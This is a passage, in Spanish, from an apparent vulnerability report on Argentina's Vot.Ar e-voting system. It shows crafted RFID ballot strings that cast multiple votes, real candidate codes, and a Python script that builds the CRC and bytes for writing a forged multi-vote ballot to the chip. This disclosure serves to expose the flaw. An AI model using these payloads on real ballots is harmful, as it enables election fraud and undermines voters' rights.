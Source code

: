 Las boletas RFID tienen una estructura simple (referirse al punto [IV. B. 1](#p-4-b-1).). Por ejemplo, la siguiente es una boleta para "Diputado" (DIP) "Jefe de Gobierno" (JEF) y "Jefe Comunal" (COM) para la provincia "Buenos Aires" (CABA):

`"06CABA.1COM567DIP432JEF123"`

Y la siguiente es una boleta que emite tres votos para la categoría "Jefe de Gobierno":

`"06CABA.1JEF123JEF123JEF123"`

Y esta es una boleta que emite 10 votos para "Jefe de Gobierno":

`"06CABA.1JEF123JEF123JEF123JEF123JEF123JEF123JEF123JEF123JEF123JEF123"`

Hay más posibilidades, por ejemplo, la siguiente boleta emite tres votos normales y luego agrega 7 votos más para "Jefe de Gobierno":

`"06CABA.1COM567DIP432JEF123JEF123JEF123JEF123JEF123JEF123JEF123JEF123"`

Los códigos de cada candidato que participa de las elecciones se encuentran publicados en la web [[67]](#ref-67) y [[68]](#ref-68), por lo que cualquier persona puede generar los valores correspondientes a fin de emitir un voto malicioso.

Por ejemplo, los códigos para el Ballotage del 19 de julio son (en el orden que se proveen por la web):

*   Martín Losteau: 1
*   Fernando Sánchez: 4
*   Horacio Rodríguez Larreta: 2
*   Diego César Santilli: 3
*   Voto en blanco: _BLC

Entonces, un multivoto en blanco sería:

`"JEF_BLCJEF_BLCJEF_BLC"`  

### D. Generador de boleta multi-voto

El siguiente script en Python genera el CRC32 en little-endian sobre los datos indicados, a fin de escribirlos en el chip. Se pueden introducir estos valores manualmente en una aplicación de escritura NFC para Android como NFC-V [[69]](#ref-69).

```python
from zlib import crc32
from struct import pack
voto="06CABA.1COM1234DIP5678JEF5678" # original
voto="06CABA.1COM1234JEF5678JEF5678" # 2 JEF
print "Largo del mensaje: %02X" % len(voto)
print "CRC: %s" % ' '.join(map(lambda x:"%02X"%ord(x),pack("i",crc32(voto))))
print "Datos de boleta: %s" % ' '.join(map(lambda x:"%02X"%ord(x),voto))
```

### E. Solución paliativa

La solución de fondo de este problema es no emplear sistemas de emisión del sufragio por medios informáticos. Estos agregan nuevas posibilidades de ataques y fraudes sin solucionar ninguno de los problemas característicos de nuestro sistema electoral que no pueda ser resuelto con la boleta única de papel. **El sistema Vot.Ar fue impuesto de forma apresurada**, sin educación apropiada a los ciudadanos ni las autoridades y sin una auditoría de código exhaustiva, como claramente deja en evidencia este ejemplo de error de programación. Por otra parte, la experiencia internacional muestra que todo sistema de voto electrónico, más temprano que tarde, ha resultado vulnerable a alguna forma de ataque. Situaciones todas que han sido tratadas en el presente informe.
